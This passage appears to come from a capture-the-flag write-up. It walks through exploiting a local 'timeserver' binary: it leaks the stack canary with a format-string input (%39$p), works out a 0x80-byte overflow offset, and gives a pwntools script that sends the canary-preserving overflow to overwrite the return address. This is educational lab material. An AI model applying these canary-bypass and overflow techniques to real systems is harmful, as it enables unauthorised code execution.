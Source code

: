 As you can see in the above, we can see the canary on the stack right at the printf call. Now that we think we know where the canary is lets confirm it by trying to print that value off of the stack. To do this I set the breakpoint again to see what the canary was and then passed in `%39$x` as our input since 39 is the position on the stack that our canary is when the print is called.

Now that we can read the canary, we need to know how much we have to overflow our input in order to overwrite the canary. Luckily binja has a stack view that makes it very easy to see:

![stack](./Photos/stack_view.png)

From this we can see that in order to overflow into our canary we will need to write 0x80 (0x90 - 0x10) bytes. So lets try writing that many bytes, then writing our canary value, and then lets fill the return address with trash to see if we can get a segfault:

```py
# import pwntools
from pwn import *

# open process
s = process('./timeserver')

# print the text
print(s.recvuntil(b'date.\n'))

# send input for canary
s.sendline(b'%39$p')

# parse the canary
canary = p32(int(s.recvline().split(b': 0x')[1][:-1], 16))

# print the text
print(s.recvuntil(b'date.\n'))

# send payload with canary
s.sendline((b'a' * 128) + canary + (b'A' * 100))

# print the rest
print(s.recvline())
print(s.recvline())
print(s.recvline())
```
